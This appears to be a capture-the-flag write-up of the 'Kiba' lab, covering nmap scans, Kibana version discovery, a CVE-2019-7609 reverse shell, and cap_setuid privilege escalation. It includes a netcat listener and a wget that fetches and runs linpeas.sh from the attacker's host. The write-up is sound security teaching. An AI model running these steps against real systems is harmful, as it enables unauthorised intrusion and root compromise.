




# Kiba

I started with a basic nmap scan to find out which ports are open.

```
$ nmap -p- 10.10.250.164
Starting Nmap 7.80 ( https://nmap.org ) at 2023-06-06 14:30 CEST
Nmap scan report for 10.10.250.164
Host is up (0.047s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent
```
Later, I re-scan the host just on the open ports, using `-sV` and `-sC` flags.

```
$ nmap -sC -sV -p 22,80,5044,5601 10.10.250.164
Starting Nmap 7.80 ( https://nmap.org ) at 2023-06-06 14:31 CEST
Nmap scan report for 10.10.250.164
Host is up (0.046s latency).

PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Tue, 06 Jun 2023 12:31:31 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Tue, 06 Jun 2023 12:31:29 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Tue, 06 Jun 2023 12:31:29 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.80%I=7%D=6/6%Time=647F2722%P=x86_64-pc-linux-gnu%r(Get
SF:Request,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nkb
SF:n-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c
SF:\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\x
SF:20close\r\nDate:\x20Tue,\x2006\x20Jun\x202023\x2012:31:29\x20GMT\r\n\r\
SF:n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x2
SF:0kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconten
SF:t-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-c
SF:ache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Tue,\
SF:x2006\x20Jun\x202023\x2012:31:29\x20GMT\r\n\r\n{\"statusCode\":404,\"er
SF:ror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLSe
SF:ssionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSer
SF:verCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSession
SF:Req,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not\
SF:x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d0492328
SF:3ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\r
SF:\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x2
SF:0close\r\nDate:\x20Tue,\x2006\x20Jun\x202023\x2012:31:31\x20GMT\r\n\r\n
SF:{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fou
SF:nd\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(
SF:LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPBi
SF:ndReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
From this scan, I noticed that there is a service on port 5601 reachable via http GET requests. In addition to the one present on port 80.
After that, I re-scan another time the host using `-script vuln` flag.

```
$ nmap -script vuln -p 22,80,5044,5601 10.10.250.164
Starting Nmap 7.80 ( https://nmap.org ) at 2023-06-06 14:33 CEST
Nmap scan report for 10.10.250.164
Host is up (0.046s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp   open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
5044/tcp open  lxi-evntsvc
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
5601/tcp open  esmagent
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

```
This scan reports that the following host is vulnerable to a known attack known as slow loris. Since this is a DOS-type attack, it is of no interest to us, but it is still useful to report this vulnerability.

So, I checked the service present on port 80, and the only thing I found is a http page with the following message.
```
		     ,+++77777++=:,                    +=                      ,,++=7++=,,
		    7~?7   +7I77 :,I777  I          77 7+77 7:        ,?777777??~,=+=~I7?,=77 I
		=7I7I~7  ,77: ++:~+777777 7     +77=7 =7I7     ,I777= 77,:~7 +?7, ~7   ~ 777?
		77+7I 777~,,=7~  ,::7=7: 7 77   77: 7 7 +77,7 I777~+777I=   =:,77,77  77 7,777,
		  = 7  ?7 , 7~,~  + 77 ?: :?777 +~77 77? I7777I7I7 777+77   =:, ?7   +7 777?
		      77 ~I == ~77=77777~: I,+77?  7  7:?7? ?7 7 7 77 ~I   7I,,?7 I77~
		       I 7=77~+77+?=:I+~77?     , I 7? 77 7   777~ +7 I+?7  +7~?777,77I
		         =77 77= +7 7777         ,7 7?7:,??7     +7    7   77??+ 7777,
		             =I, I 7+:77?         +7I7?7777 :             :7 7
		                7I7I?77 ~         +7:77,     ~         +7,::7   7
		               ,7~77?7? ?:         7+:77           77 :7777=
		                ?77 +I7+,7         7~  7,+7  ,?       ?7?~?777:
		                   I777=7777 ~     77 :  77 =7+,    I77  777
		                     +      ~?     , + 7    ,, ~I,  = ? ,
		                                    77:I+
		                                    ,7
		                                     :777
		                                        :
				Welcome, "linux capabilities" is very interesting.
	
```
Maybe later we might need to check linux capabilities.

Anyway, I switched to the service present on port 5601 where I found a Kibana Instance.

<div><p align="center"></div>

[Kibana](https://www.elastic.co/kibana/) is an free and open frontend application that sits on top of the Elastic Stack, providing search and data visualization capabilities for data indexed in Elasticsearch. Commonly known as the charting tool for the Elastic Stack (previously referred to as the ELK Stack after Elasticsearch, Logstash, and Kibana), Kibana also acts as the user interface for monitoring, managing, and securing an Elastic Stack cluster — as well as the centralized hub for built-in solutions developed on the Elastic Stack. Developed in 2013 from within the Elasticsearch community, Kibana has grown to become the window into the Elastic Stack itself, offering a portal for users and companies. 

To know the version of Kibana I made a request via `curl` command.
```
$ curl -XGET http://10.10.250.164:5601/app/kibana >> kibana_info.html
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 68302  100 68302    0     0   327k      0 --:--:-- --:--:-- --:--:--  328k

```

In the case of `-XGET`, it indicates that I want to send a GET request. A GET request is used to retrieve or fetch resources from a server. It is the most commonly used HTTP method for retrieving data, such as web pages, documents, or API responses, from a specific URL.

I found the version written in a style tag
```
...
</style><style id="themeCss"></style></head><body><kbn-injected-metadata data="{&quot;version&quot;:&quot;6.5.4&quot;,&quot;buildNumber&quot;
...
```

So, now that I know version number (6.5.4) I made some researchs and I found this [github repo](https://github.com/mpgn/CVE-2019-7609) and an article about [CVE-2019-7609](https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability)

<div><p align="center"></div>

I followed the instructions in the article, and on my machine I listened for connections via netcat. After a few moments I got a working reverse shell.

```
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.250.164 48266
bash: cannot set terminal process group (952): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ 
```

Using a python server, I downloaded `linpeas.sh` script from my attacker machine to a vulnerable machine and I ran it.
```
$ wget http://10.9.15.73:8585/linpeas.sh
--2023-06-07 00:26:46--  http://10.9.15.73:8585/linpeas.sh
Connecting to 10.9.15.73:8585... connected.
HTTP request sent, awaiting response... 200 OK
Length: 830030 (811K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 810.58K  2.62MB/s    in 0.3s    

2023-06-07 00:26:47 (2.62 MB/s) - 'linpeas.sh' saved [830030/830030]

$ chmod +x linpeas.sh
$ ./linpeas.sh
```

<div><p align="center"></div>

The information provided by linpeas indicates that the `/home/kiba/.hackmeplease/python3` file has the capability `cap_setuid+ep`. Let's break down what this means:

* `cap_setuid` refers to the capability to set the user ID when executing the file. This capability allows the program to temporarily change its effective user ID to that of the file owner, even if the user running the program does not have root privileges.
* `+ep` signifies that the file has both the "cap_setuid" capability and the executable permission (the execute permission is represented by "x" in file permissions).

Having the `cap_setuid+ep` capability on a file means that it can be executed with the privileges of its owner, even if the user executing it does not have those privileges. This capability can be potentially abused for privilege escalation attacks if there are vulnerabilities in the file or its associated programs.

<div><p align="center"></div>

I consulted [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) to understand how to exploit this vulnerability.
<div><p align="center"></div>

With this command I got a root shell and was able to read the root flag.
